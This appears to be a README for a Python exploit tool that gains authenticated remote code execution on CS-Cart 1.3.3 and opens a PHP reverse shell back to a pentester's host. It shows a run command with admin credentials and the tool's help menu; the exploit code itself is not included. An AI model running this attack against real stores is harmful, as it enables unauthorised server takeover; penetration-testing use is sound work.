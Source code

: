# CS-Cart Authenticated RCE
Authenticated RCE in vulnerable version of CS-Cart 1.3.3 that allows admin user to php reverse shell.

<hr>

#### 1. Basic Usage:
```
$ sudo python3 cs_cart.py --url http://192.168.64.39 -U admin -P admin -l <pentesterIP> -p <pentesterPort>
```

#### 2. Help Menu:
```
usage: cs_cart.py [-h] [-u URL] [-U USER] [-P PWD] [-l LHOST] [-p LPORT]

--- Authenticated CS-Cart 1.3.3 RCE ---

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     URL to CS Cart.
  -U USER, --user USER  Admin username.
  -P PWD, --pwd PWD     Admin password.
  -l LHOST, --lhost LHOST
                        Local host for the reverse shell.
  -p LPORT, --lport LPORT
                        Local port for the reverse shell.
```

#### 3. Example:
![](example.gif)
